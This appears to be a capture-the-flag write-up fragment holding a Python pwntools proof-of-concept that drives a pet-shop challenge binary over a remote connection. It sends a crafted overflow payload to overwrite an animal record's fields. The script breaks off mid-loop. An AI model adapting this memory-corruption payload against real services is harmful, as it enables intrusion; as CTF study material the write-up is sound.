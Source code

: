 POC: (Note: This script will fail if the first pig dies. So, it requires a bit of luck and multiple retries):
``` python
from pwn import *

def feed():
    log.info("Feeding animal[0]")
    r.sendline(b'2')
    r.recvuntil(b'animal? ')
    r.sendline(b'0')
    r.recvuntil(b'> ')
    r.sendline(b'2')

def buy_first_animal():
    r.sendline(b'3')
    r.recvuntil(b'> ')
    r.sendline(b'1')
    r.recvuntil(b'animal? ')
    r.sendline(b'pig')

def buy_sec_animal():
    r.sendline(b'3')
    r.recvuntil(b'> ')
    r.sendline(b'1')
    r.recvuntil(b'animal? ')
    r.sendline(b'pig2')

def check_price():
    line = r.recvuntil(b'balance is ')
    if "died" in line.decode():
        print("animal ded")
    price = int(r.recvuntil(b'\n').strip())
    print(r.recvuntil(b'> '))
    return price

def change_max_age():
    r.sendline(b'2')
    r.recvuntil(b'animal? ')
    r.sendline(b'0')
    r.recvuntil(b'> ')
    r.sendline(b'3')
    r.recvuntil(b'animal? ')
    payload = b'A'*16 + b'\x00' * 12 + b'\x41' + b'\x00' * 7 + b'\x78\x4d\x40\x00\x00\x00\x00\x00\x70\x69\x67\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x00'
    #print(len(payload))
    r.sendline(payload)

def sell_animal():
    r.sendline(b'2')
    r.recvuntil(b'animal? ')
    r.sendline(b'1')
    r.recvuntil(b'> ')
    r.sendline(b'1')

binary = ELF('./oop')
#r = process('./oop')
r = remote('193.57.159.27', 62750)

# Gain money   
r.recvuntil(b'> ')
buy_first_animal()

while True:
    price = check_price()
```